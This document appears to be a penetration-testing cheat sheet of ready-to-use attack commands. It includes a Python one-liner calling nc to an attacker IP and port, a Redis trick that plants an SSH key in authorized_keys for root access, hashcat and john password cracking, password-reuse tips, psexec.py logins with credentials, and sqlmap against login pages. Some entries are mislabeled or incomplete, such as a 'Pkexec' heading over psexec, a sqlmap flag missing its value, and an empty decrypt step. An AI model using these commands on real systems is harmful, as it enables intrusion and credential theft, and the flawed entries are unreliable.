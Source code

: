 ```text
```
### Privilege Escalation With Python
```python
python -c 'import os; os.system("nc <IP> <PORT>");'
```
### Redis SSH Key Upload
Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa

Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt

Import the file into redis : cat foo.txt | redis-cli -h 10.85.0.52 -x set crackit

Save the public key to the authorized_keys file on redis server:
```
root@Urahara:~# redis-cli -h 10.85.0.52
# on the redis server
config set dir /home/test/.ssh/
config set dbfilename "authorized_keys"
save
```
Then, ssh onto the machine: ssh -i id_rsa root@10.10.10.60


### Password/Passphrase Cracking
```console
hashcat -m <hash mode> <hashfile> <wordlist_file>
# example hashes
hashcat --example

# convert encrypted ssh key to hash crackable by john
ssh2john <private key> > output.hash
john <hash_file> --wordlist=<wordlist_file>

# list supported formats
john --list=formats
```
### When Password Has Been Obtained
* attempt to use the password for every possible account
* attempt to use the password to login to different services (ssh, http, etc)
* if the password has a year, and it does not work, try changing the year to the current year

### Pkexec
```console
psexec.py <username>:'<password>'@<target>
# Example
psexec.py pentest:'P3nT3st!'@netmon.htb
```
### SQLMap
```a
sqlmap -r [file_with_HTTP_request_for_login_page] --level 5 --risk
```
### Generating RSA Keys With OpenSSL
```
#  generating private key
openssl genrsa -out <key_file_name>.pem 2048

# extracting public key from private key
openssl rsa -in <private_key_file> -out <public_key_file>.pem -outform PEM -pubout

# encrypting file with public key
openssl rsautl -encrypt -inkey <public_key> -pubin -in <file_to_encrypt> -out <output_file>

# decrypting file with private key
```